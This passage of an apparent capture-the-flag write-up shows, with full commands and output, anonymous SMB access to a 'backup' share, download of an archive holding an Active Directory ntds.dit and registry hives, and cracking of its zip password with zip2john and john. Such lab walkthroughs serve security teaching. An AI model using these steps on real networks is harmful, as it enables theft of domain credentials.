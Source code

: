 What immediately sticks out is that 'backup' share.

```sh
utopia@utopia: APT » smbclient \\\\dead:beef::b885:d62a:d679:573f\\backup                                  1 [04:42:37]
Enter WORKGROUP\utopia's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 24 09:30:52 2020
  ..                                  D        0  Thu Sep 24 09:30:52 2020
  backup.zip                          A 10650961  Thu Sep 24 09:30:32 2020

                10357247 blocks of size 4096. 6965953 blocks available
smb: \> get backup.zip
getting file \backup.zip of size 10650961 as backup.zip (1119,4 KiloBytes/sec) (average 1119,4 KiloBytes/sec)
smb: \> exit
```

Trying to unzip the file reveals that it's actually password-protected, we can easily brute force this with zip2john and john.

```sh
utopia@utopia: smb » unzip backup.zip                                                                        [05:06:26]
Archive:  backup.zip
[backup.zip] Active Directory/ntds.dit password: 
   skipping: Active Directory/ntds.dit  incorrect password
   skipping: Active Directory/ntds.jfm  incorrect password
   skipping: registry/SECURITY       incorrect password
   skipping: registry/SYSTEM         incorrect password
utopia@utopia: smb » zip2john backup.zip > hash.txt                                                        1 [05:06:30]
backup.zip/Active Directory/ is not encrypted!
ver 2.0 backup.zip/Active Directory/ is not encrypted, or stored with non-handled compression type
ver 2.0 backup.zip/Active Directory/ntds.dit PKZIP Encr: cmplen=8483543, decmplen=50331648, crc=ACD0B2FB
ver 2.0 backup.zip/Active Directory/ntds.jfm PKZIP Encr: cmplen=342, decmplen=16384, crc=2A393785
ver 2.0 backup.zip/registry/ is not encrypted, or stored with non-handled compression type
ver 2.0 backup.zip/registry/SECURITY PKZIP Encr: cmplen=8522, decmplen=262144, crc=9BEBC2C3
ver 2.0 backup.zip/registry/SYSTEM PKZIP Encr: cmplen=2157644, decmplen=12582912, crc=65D9BFCD
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
utopia@utopia: smb » john --wordlist=/opt/rockyou.txt hash.txt                                               [05:05:45]
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyousomuch   (backup.zip)
1g 0:00:00:00 DONE (2021-03-29 05:05) 33.33g/s 546133p/s 546133c/s 546133C/s 123456..christal
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
